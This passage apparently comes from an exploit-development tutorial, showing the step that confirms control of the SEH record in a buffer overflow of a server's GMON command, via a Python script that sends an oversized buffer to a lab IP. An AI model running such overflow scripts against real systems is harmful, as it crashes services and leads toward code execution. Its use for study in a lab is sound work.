 Let us confirm that we control the SEH record with this offset:

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 3 - control nseh
import socket

offset = 3553 - 4
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"

buf = b""
buf += b"GMON /."
buf += b"A" * offset
buf += b"B" * 4   # NSEH
buf += b"C" * 4   # SEH
buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
